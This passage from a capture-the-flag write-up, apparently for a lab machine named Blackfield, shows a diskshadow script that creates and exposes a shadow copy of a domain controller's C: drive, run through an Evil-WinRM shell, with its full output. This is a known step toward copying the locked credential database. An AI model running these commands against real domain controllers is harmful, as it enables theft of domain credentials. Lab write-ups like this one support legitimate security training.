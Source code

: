 

The error message is complaining that it can't create the `.cab` file.
It's probably trying to do so in the local directory. I noticed in the
examples in the [Microsoft
documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow)
that it used a line to set the `metadata` location. I'll add that line,
and another from the examples to turn verbose on (because why not):



    set context persistent nowriters
    set metadata c:\programdata\df.cab
    set verbose on
    add volume c: alias df
    create
    expose %df% z:



I could also have just started running out of a writable directory, like
`programdata`.

After `unix2dos`, upload and run, and it works:



    *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC01,  6/9/2020 9:15:49 PM

    -> set context persistent nowriters
    -> set metadata c:\programdata\df.cab
    -> set verbose on
    -> add volume c: alias df
    -> create

    Alias df for shadow ID {fe96248c-9468-4892-befc-a9ac2dda6a8e} set as environment variable.
    Alias VSS_SHADOW_SET for shadow set ID {e5573ff3-af32-4b6e-961a-8db9a3e76625} set as environment variable.
    Inserted file Manifest.xml into .cab file df.cab
    Inserted file Dis6354.tmp into .cab file df.cab

    Querying all shadow copies with the shadow copy set ID {e5573ff3-af32-4b6e-961a-8db9a3e76625}

            * Shadow copy ID = {fe96248c-9468-4892-befc-a9ac2dda6a8e}               %df%
                    - Shadow copy set: {e5573ff3-af32-4b6e-961a-8db9a3e76625}       %VSS_SHADOW_SET%
                    - Original count of shadow copies = 1
                    - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                    - Creation time: 6/9/2020 9:15:50 PM
                    - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                    - Originating machine: DC01.BLACKFIELD.local
                    - Service machine: DC01.BLACKFIELD.local
                    - Not exposed
                    - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                    - Attributes:  No_Auto_Release Persistent No_Writers Differential

